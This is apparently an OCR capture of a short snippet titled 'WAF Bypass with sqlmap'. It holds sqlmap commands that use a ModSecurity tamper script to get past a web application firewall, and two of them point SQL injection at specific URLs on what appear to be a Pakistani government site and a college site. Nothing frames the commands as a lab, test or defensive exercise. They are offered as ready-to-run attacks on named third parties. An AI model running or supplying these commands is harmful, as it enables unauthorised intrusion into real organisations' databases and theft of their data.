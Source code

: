 
WAF Bypass with sqlmap 

sqlmap.py -u "URL" --batch --banner --tamper=modsecurityversioned 


python sqlmap.py -u "http://multan.gov.pk/page.php?data=50*" --batch --banner --tamper=modsecurityversioned 




python sqlmap.py -u "http://citicollege.edu.pk/main.php?Id=1*" --batch --banner 







